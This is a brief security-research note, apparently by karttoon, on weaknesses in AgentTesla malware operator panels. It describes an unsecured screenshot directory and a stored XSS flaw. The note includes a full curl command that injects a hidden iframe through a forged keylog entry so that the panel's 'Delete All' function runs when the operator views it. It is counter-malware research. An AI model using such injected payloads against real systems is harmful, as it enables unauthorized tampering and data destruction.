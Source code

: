 


Type: Permissions

Author: [karttoon](https://twitter.com/noottrak)

The screenshot directory is not properly secured on AgentTesla panels. Each underlying folder is the HWID of an infected machine (of note for the XSS vulnerability below).

```
hxxp://example[.]com/badguy/Panel/Screens/
hxxp://example[.]com/badguy/Panel/Screens/1234-ABCD-5678-EF01-9ABC-2345-DEF0-6789/ScreenShots/2017_01_02_03_04_05.jpeg
```
Type: XSS vulnerability

Author: [karttoon](https://twitter.com/noottrak)

Once the root of the panel is identified (eg if you saw hxxp://example[.]com/badguy/Panel/post.php, the root is /badguy/Panel/) you can exploit the fact that the AgentTesla panel will directly inject HTML into its database for display to the operator once they view the expanded entry. The trick is convincing them to expand the entry, so you need to use a valid HWID for an infected system and a lure they can't resist. Below example truncates to "[clipboard]credit card d..." and will use XSS to redirect the admin to the "Delete All" function for the data.

```
curl hxxp://example[.]com/badguy/Panel/phost.php --data 'type=keylog&hwid=1234-ABCD-5678-EF01-9ABC-2345-DEF0-6789&time=2017-01-02 03:04:05&pcname=Administrator&logdata=%3Cfont%20color%3D%23FF0000%3E%5Bclipboard%5D%3C%2Ffont%3Ecredit%20card%20details%20are%20below%20with%20password%20p%40%24%24w0rd%3Cfont%20color%3D%23FF0000%3E%5Bclipboard%5D%3C%2Ffont%3E%3Cbr%3E%3Ciframe%20src%3D%22http%3A%2F%2Fexample[.]com%2Fbadguy%2FPanel%2Fdeleteall.php%22%20style%3D%22visibility%3A%20hidden%3B%22%3E%3C%2Fiframe%3E&screen=&ipadd=&webcam_link=&client=&link=&username=&password=&screen_link='
```
